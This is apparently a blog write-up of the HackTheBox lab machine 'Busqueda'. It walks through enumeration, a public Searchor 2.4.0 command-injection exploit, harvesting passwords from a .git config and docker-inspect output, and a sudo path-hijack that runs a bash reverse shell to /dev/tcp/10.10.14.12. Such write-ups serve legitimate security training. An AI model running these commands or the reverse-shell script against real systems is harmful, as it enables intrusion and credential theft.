 
---
title: "Busqueda"
summary: "Busqueda Machine From HackTheBox"
categories: ["Post","Blog",]
tags: ["post","linux ","hackthebox"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2021-09-04

---

| Machine Info         |              |
| -------------------- | ------------ |
| **Platform**         | HackTheBox   |
| **Operative System** | Linux        |
| **Difficulty**       | Easy         |
| **IP**               | 10.10.11.208 |
- - -
## Enumeration

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p22,80 -sCV --min-rate 2000 -T5 -n -Pn 10.10.11.208 -oN ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)

80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that the web on port 80 redirects to **searcher.htb**. Let's add it to `/etc/hosts`.

As soon as we land on the page, we see the following:
![Busqueda1](img/Busqueda/Busqueda1.png)

A quick look shows the version of the App that is running behind this website, which is **Searchor 2.4.0**. If we look for vulnerabilities, we find the following [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)
- - -
## Exploitation
Let's run the exploit:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ./exploit.sh http://searcher.htb/ 10.10.14.10 4646
```

We put a `netcat` listener to receive the connection:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4646         
listening on [any] 4646 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.208] 40288
```

We succesfully enter the machine as user **svc** .
```bash
svc@busqueda:~$ cat user.txt
cat user.txt
75a17...8bd3e
```
- - -
## Privilege Escalation
Looking though the system files, we find a `.git` with credentials in the **app** folder.

```bash
svc@busqueda:/var/www/app/.git$ cat config

[core]
	repositoryformatversion = 0
	...
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

The user is **cody** and the password is **jh1usoih2bkjaspwe92** for an application in a subdomain called **gitea**. Let's add it to the `/etc/hosts` and take a look.

![Busqueda2](img/Busqueda/Busqueda2.png)

Inside here, we don't find anything interesing, appart that we can see a user called **administrator**. Although, we can try to SSH with the **svc** user and **cody's** password:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ssh svc@10.10.11.208                   
svc@10.10.11.208's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  ...

Last login: Tue Apr  4 17:02:09 2023 from 10.10.14.19
```

Let's check the sudo privileges that this user has:

```bash
svc@busqueda:/opt/scripts$ sudo -l

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

This user has the right to execute that script inside **/opr/scripts**.

If we run it, we can see the following options:

```bash
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

After some investigation, we discover the `docker-inspect` option can be use to retrieve information from the docker containers that are running in the machine, before seen with the  `docker-ps` option.


```json
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq

"Env": [
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],
```

It looks like we find more credentials for the **gitea** application. Let's try to log in as **administrator**
with these credentials.

![Busqueda3](img/Busqueda/Busqueda3.png)

Nice! Now we can check the content of the **scripts** in the **/opt** folder.

Reading the script `system-checkup.py` script we notice that the `full-checkup.sh` script is referenced as if it was in the same folder:

```
...
elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
...
```

We can abuse this by creating our own malicious script and reference it, as we are executing it with sudo privileges:

```bash
svc@busqueda:/tmp$ cat full-checkup.sh 

#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/4647 <&1'
```

>Keep in mind that you need to grant execution privileges to the script to run, as this was a mistake of mine that took me quite a lot of time to figure out.

Now, we set a `netcat` listener and execute the malicious script:

```bash
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

In the `netcat` we receive the root shell:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4647
listening on [any] 4647 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.208] 47020
root@busqueda:/tmp# whoami
root
```

Nice! We rooted the machine.
```bash
root@busqueda:~# cat /root/root.txt
cat /root/root.txt
ccd03ae...0e87097
```